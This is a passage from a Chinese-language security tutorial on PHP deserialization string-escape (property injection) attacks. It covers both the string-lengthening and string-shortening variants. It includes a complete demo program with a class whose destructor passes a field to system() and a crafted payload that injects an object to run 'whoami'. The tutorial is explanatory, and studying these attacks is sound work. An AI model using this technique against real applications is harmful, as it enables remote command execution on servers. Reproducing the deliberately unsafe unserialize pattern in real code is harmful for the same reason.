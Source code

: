    不妨让`username=tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}`，`password`为不含x的项，那么经过构造，我们发现username的长度为45，x有20个，那么序列化并经过`filter`函数之后原串会变

   ```php
   a:2:{i:0;s:45:"tr1ple+40*'z'";i:1;s:6:"123456";}i:1;s:5:"aaaaa";
   ```

   会发现多出来的z部分把原本的第二个属性给挤出去了，改变之后的串在反序列化的时候会只读取第一个符合规则的（即`{}`为止），那么后面的内容就自然而然被省略了，也就完成了我们的属性注入

2. 串缩短，比如有以下程序

   ```php
   <?php
   class evil{
       public $cmd;
   
       public function __construct($cmd){
           $this->cmd = $cmd;
       }
   
       public function __destruct(){
           system($this->cmd);
       }
   }
   
   class User
   {
       public $username;
       public $password;
   
       public function __construct($username, $password){
           $this->username = $username;
           $this->password = $password;
       }
   
   }
   
   function write($data){
       $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
       file_put_contents("dbs.txt", $data);
   }
   
   function read(){
       $data = file_get_contents("dbs.txt");
       $r = str_replace('xx', 'y', $data);
       return $r;
   }
   
   if(file_exists("dbs.txt")){
       unlink("dbs.txt");  
   }
   
   $username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
   $password = "A";
   $payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password.$payload))); var_dump(unserialize(read()));
   ```
